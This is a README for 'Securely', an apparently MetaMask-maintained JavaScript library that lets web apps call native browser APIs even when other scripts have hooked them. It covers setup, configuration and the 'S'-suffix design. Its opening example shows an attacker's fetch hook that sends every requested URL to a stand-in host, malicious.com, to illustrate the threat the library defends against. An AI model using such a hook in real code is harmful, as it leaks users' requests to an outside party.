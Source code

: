 # Securely 🔒

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app:

```javascript
// attacker hooks fetch API and hijacks innocent requests:

const originalFetch = fetch;
fetch = function(url) {
  originalFetch('https://malicious.com/hijacked?real_url=' + url);
  return originalFetch(url);
};

// without securely:

fetch('https://example.com/get_all_imgs'); // goes through attacker's hook

// with securely:

securely(_ => fetchS('https://example.com/get_all_imgs')); // avoids attacker's hook by using native fetch API
```

* [Test](/SECURELY_WEBSITE) `Securely` for yourself with this live demo!
* `Securely` is still experimental ⚠️ - your [help](#Contribute) is highly appreciated!

## Usage

In order to use Securely you must load the Securely script and better to do so as the first javascript code to be executed within the web app:

```html
<script src="./securely.prod.js"></script>
```

You may let other javascript code load and execute before Securely, but that would mean that such code will be able to break Securely's behaviour and ultimately disable its effect completely.

Once you loaded Securely, you have to declare what native APIs you wish to have access to.
You will be able to use a new exposed API called `SECURE` to do so:

```javascript
const securely = SECURE(window, config);
```

`SECURE` API can also be required as part of a bundle instead of a script tag:

```
yarn add @weizman/securely
```

```javascript
const secure = require('@weizman/securely');
```

* `@window` - the realm you wish to apply securely to (if you wish to secure the realm of your current context, just pass `window`)
* `@config` - an object indicating the native APIs you wish to have access to
* `@returns` - a function that is the only key to enable access to the natives you wished to secure

The simple ones are `objects`:

```javascript
// secure the APIs you wish

const securely = SECURE(window, {
    objects: {
        'document': ['createElement'],
        'window': ['fetch'],
    },
    prototypes: {
        
    }
});

// securely use them

const myScript = securely(_ => {
  return document.createElementS('script');
});

securely(_ => {
  fetchS('https://example.com/sensitive_request/');
});
```

But if you wish to secure properties/methods of `prototypes`, you can achieve that as well:

```javascript
// secure the APIs you wish

const securely = SECURE(window, {
    objects: {
    
    },
    prototypes: {
        'Array': ['includes', 'push', 'slice'],
    }
});

// securely use them

const result = securely(_ => {
  const arr = ['a', 'b', 'c'];
  if (arr.includesS('b')) {
    return arr.sliceS(2);
  }
});
```

## Securely Technically Explained (What's the `S` suffix for?)

You may have noticed that in order to use your secured natives, not only that you have to do so from within the `securely` callback, but you also have to call your native API with an `S` suffix.

This is because while allowing access to native APIs we wish to maintain the possibility to access the normal state of those APIs within the web app (whether if they were hooked by anyone or not).

Hooking is a common practice that many third party vendors do in order to provide their services, and in many cases in order for the app to work smoothly it needs to go through such hooked APIs.

So in order to not harm the web app ecosystem, we choose to not alter but to append the securely functionality. 
We do that by adding `S` to the end of the desired native API.

So if for example you wish to call fetch normally and go through any potential hook, you do so the way you're used to:

```javascript
fetch('https://example.com/this_is_just_a_normal_request');
```

But if you want to call fetch and this time make sure to avoid any potential hooks (whether or not malicious), that's where securely comes in:

```javascript
securely(_ => fetchS('https://example.com/this_request_is_extra_sensitive'));
```

Accessing `S` APIs is disabled outside of the `securely` callback. This is another important security mechanizm.
Not only that we want to have access to native APIs, but we want to make sure no other js code in runtime has such access (unless we want it to have that ability, in which case we'll pass the `securely` function on to it).

Native APIs can be used by attackers who managed to execute code within the app maliciously, and we just don't want anyone to have such an ability without specifically authorizing it.

That is why the `S` APIs are not accessible outside of the `securely` callback:

```javascript
console.log(fetchS); // undefined
securely(_ => console.log(fetchS)); // ƒ fetch() { [native code] }
console.log(fetchS); // undefined
```

## Supporters

Funded by [Consensys 💙](https://github.com/consensys)

Maintained and developed by [MetaMask 🦊](https://github.com/MetaMask)

Invented and developed by [Gal Weizman 👋🏻](https://weizman.github.io/)
